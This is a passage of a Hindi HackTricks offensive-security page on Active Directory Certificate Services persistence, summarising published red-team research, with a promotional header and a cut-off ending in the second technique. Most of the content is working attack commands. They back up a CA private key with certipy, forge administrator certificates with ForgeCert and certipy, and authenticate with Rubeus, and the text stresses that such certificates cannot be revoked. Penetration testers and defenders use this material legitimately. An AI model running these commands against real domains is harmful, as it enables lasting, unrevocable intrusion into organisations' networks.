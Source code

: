 # AD CS डोमेन स्थिरता

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को PRs सबमिट करके।

</details>

**यह [https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)** में साझा की गई स्थिरता तकनीकों का सारांश है। अधिक विवरण के लिए इसे देखें।

## चोरी गए CA प्रमाणपत्रों के साथ प्रमाणपत्र बनाना - DPERSIST1

एक प्रमाणपत्र को CA प्रमाणपत्र मानने के लिए आप कैसे कह सकते हैं?

यह तय किया जा सकता है कि एक प्रमाणपत्र एक CA प्रमाणपत्र है अगर कई शर्तें पूरी होती हैं:

- प्रमाणपत्र CA सर्वर पर संग्रहीत है, जिसकी निजी कुंजी मशीन के DPAPI द्वारा सुरक्षित है, या यदि ऑपरेटिंग सिस्टम इसे समर्थन करता है तो TPM/HSM जैसे हार्डवेयर द्वारा।
- प्रमाणपत्र के इश्यूर और सब्जेक्ट फ़ील्ड CA के विभाजन नाम से मेल खाते हैं।
- "CA संस्करण" एक्सटेंशन केवल CA प्रमाणपत्रों में मौजूद है।
- प्रमाणपत्र में Extended Key Usage (EKU) फ़ील्ड अभाव में है।

इस प्रमाणपत्र की निजी कुंजी को निकालने के लिए, CA सर्वर पर `certsrv.msc` उपकरण बिल्ट-इन GUI के माध्यम से समर्थित विधि है। फिर भी, यह प्रमाणपत्र सिस्टम में संग्रहीत अन्य प्रमाणपत्रों से अलग नहीं है; इसलिए, निकालने के लिए [THEFT2 तकनीक](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) की तकनीक लागू की जा सकती है।

इस प्रमाणपत्र और निजी कुंजी को निम्नलिखित कमांड के साथ Certipy का उपयोग करके प्राप्त किया जा सकता है:
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
जब CA प्रमाणपत्र और इसकी निजी कुंजी को `.pfx` प्रारूप में प्राप्त किया जाता है, तो [ForgeCert](https://github.com/GhostPack/ForgeCert) जैसे उपकरण का उपयोग करके मान्य प्रमाणपत्र उत्पन्न किए जा सकते हैं:
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
{% hint style="warning" %}
उस उपयोगकर्ता को ध्यान में रखना चाहिए जिसके लिए प्रमाणपत्र जाली बनाया जा रहा है कि वह सक्रिय हो और सक्षम होना चाहिए एक्टिव डायरेक्टरी में प्रमाणीकरण के लिए प्रक्रिया सफल होने के लिए। krbtgt जैसे विशेष खातों के लिए प्रमाणपत्र जाली बनाना असफल है।
{% endhint %}

यह जाली प्रमाणपत्र **वैध** होगा जब तक निर्दिष्ट समाप्ति तिथि तक होगा और **मूल सीए प्रमाणपत्र वैध हो** (सामान्यत: 5 से **10+ वर्ष** तक)। यह **मशीनों** के लिए भी वैध है, इसलिए **S4U2Self** के साथ मिलाकर, एक हमलावर किसी भी डोमेन मशीन पर **स्थिरता बनाए रख सकता है** जब तक सीए प्रमाणपत्र वैध है।\
इसके अतिरिक्त, इस विधि से उत्पन्न **प्रमाणपत्रों को रद्द नहीं किया जा सकता** क्योंकि सीए उनके बारे में जागरूक नहीं है।

## धोखाधड़ी सीए प्रमाणपत्रों पर विश्वास - DPERSIST2

`NTAuthCertificates` ऑब्जेक्ट को एक या एक से अधिक **सीए प्रमाणपत्र** शामिल करने के लिए परिभाषित किया गया है जिसे एक्टिव डायरेक्टरी (एडी) उपयोग करती है। डोमेन कंट्रोलर द्वारा सत्यापन प्रक्रिया में शामिल है `NTAuthCertificates` ऑब्जेक्ट को चेक करना जो प्रमाणीकरण के आईशूअर फ़ील्ड में निर्दिष्ट सीए से मेल खाता है। यदि मिलता है तो प्रमाणीकरण आगे बढ़ता है।

एक आत्म-साइन किया गया सीए प्रमाणपत्र एक हमलावर द्वारा `NTAuthCertificates` ऑब्जेक्ट में जोड़ा जा सकता है, प्रावेशिक अधिकार रखने की शर्त है कि उनके पास इस एडी ऑब्ज

